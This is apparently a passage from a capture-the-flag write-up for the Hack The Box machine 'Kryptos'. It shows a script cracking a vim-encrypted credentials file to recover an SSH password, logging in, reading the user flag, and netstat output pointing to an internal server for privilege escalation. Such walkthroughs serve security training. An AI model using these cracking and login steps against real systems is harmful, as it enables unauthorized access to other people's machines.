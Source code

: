Extraction reveals credentials for user `rijndael`:

```bash
$ python crack-vimcrypt-blowfish.py creds.txt rijndael
rijndael / bkVBL8Q9HuBSpj
```

It is possible to login to the box via SSH using those credentials:

```bash
$ ssh rijndael@10.10.10.129
rijndael@10.10.10.129's password:
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-46-generic x86_64)
                              
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com        
 * Support:        https://ubuntu.com/advantage

                     
 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun Apr 14 14:07:43 2019 from 10.10.13.129
rijndael@kryptos:~$ ls                   
creds.old  creds.txt  kryptos  user.txt
rijndael@kryptos:~$ cat user.txt
****************************0de2
```

## root

There is a python script in rijndael's home folder under `kryptos/kryptos.py`, which includes a web server and some endpoints I did not see before.

The output of `netstat` confirms that an internal python server is running on port 81:

```bash
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode      PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      107        17264      -                   
tcp        0      0 127.0.0.1:81            0.0.0.0:*               LISTEN      0          16268      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      101        13105      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      0          17669      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      0          19019      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           101        13104      -  
```
